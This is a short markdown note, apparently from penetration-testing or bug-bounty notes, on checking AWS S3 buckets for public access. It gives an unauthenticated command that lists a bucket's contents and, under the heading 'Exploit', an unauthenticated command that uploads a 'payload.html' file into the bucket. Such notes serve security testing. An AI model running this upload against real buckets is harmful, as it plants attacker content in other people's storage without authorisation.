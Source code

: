 # AWS Misconfiguration check
```
aws s3 ls s3://bucket name  --no-sign-request
```
## Exploit
```
aws s3 cp payload.html s3://bucket name  --no-sign-request
```
